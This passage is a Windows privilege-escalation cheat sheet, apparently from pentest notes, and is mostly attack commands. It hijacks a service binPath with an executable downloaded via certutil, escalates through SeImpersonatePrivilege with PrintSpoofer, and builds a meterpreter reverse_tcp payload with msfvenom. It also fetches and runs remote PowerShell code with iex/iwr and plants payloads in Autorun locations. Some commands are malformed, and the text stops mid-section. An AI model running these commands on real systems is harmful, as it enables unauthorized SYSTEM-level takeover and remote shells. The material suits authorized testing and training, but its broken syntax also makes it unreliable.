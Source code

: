 - Exploitation - windows [PrivEsc]

```powershell
certutil -urlcache -f http://10.9.1.137:803/ok.exe ok.exe  
sc config <name_ service> binPath="C:\Users\files\ok.exe" obj= LocalSystem  
sc stop <service_name>  
sc query <service_name>  
sc start <service_name>  
```

https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite  

### SeImpersonatePrivilege

- Detection - windows

```powershell
whoami /priv?
```

- Exploitation - windows

```powershell
iwr -uri <ip>/PrintSpoofer64.exe -Outfile PrintSpoofer64.exe
PrintSpoofer64.exe -i -c cmd
```

https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe

### Autorun

- Detection - windows

```powershell
C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu ""C:\Program Files\Autorun Program"  
`\\FILE_ALL_ACCESS`
```

- Exploitation - kali

```sh
msfvenom -p windows/meterpreter/reverse_tcp lhost=<ip> lport=<port> -f exe -o program.exe
```

```powershell
iex (iwr http://<file_server_IP>/PowerView.ps1 -Outfile program.exe)
move program.exe "C:\Program Files\Autorun Program"
logoff
```

### Startup Applications

- Detection - Windows

```powershell
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup" | findstr (F) 
\\BUILTIN\Users:(F)
```

- msfvenom - Attacker VM
